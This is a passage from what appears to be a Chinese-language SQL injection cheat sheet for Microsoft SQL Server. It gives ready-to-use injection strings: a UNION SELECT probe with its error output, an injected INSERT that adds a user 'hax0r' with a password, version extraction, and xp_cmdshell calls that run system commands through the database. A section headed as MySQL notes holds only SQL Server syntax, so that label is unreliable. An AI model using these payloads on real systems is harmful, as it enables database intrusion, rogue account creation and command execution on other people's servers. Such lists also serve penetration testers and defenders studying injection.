     > 11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 \–\-

    报错 – 第三个字段不是integer

    ……

    Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.

    在遇到union错误之前会先遇到convert()错误，所以先使用convert()再用union

* 简单的注入{MSO}

    + '; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

* 有用的函数、信息收集、内置程序、大量注入笔记

    + @@version(MS)

    数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

    + INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

### 4. MySQL笔记

* sample

    + SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/

    + DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0

    HOST_NAME() IS_MEMBER (Transact-SQL)
    IS_SRVROLEMEMBER (Transact-SQL)
    OPENDATASOURCE (Transact-SQL)

    + INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"





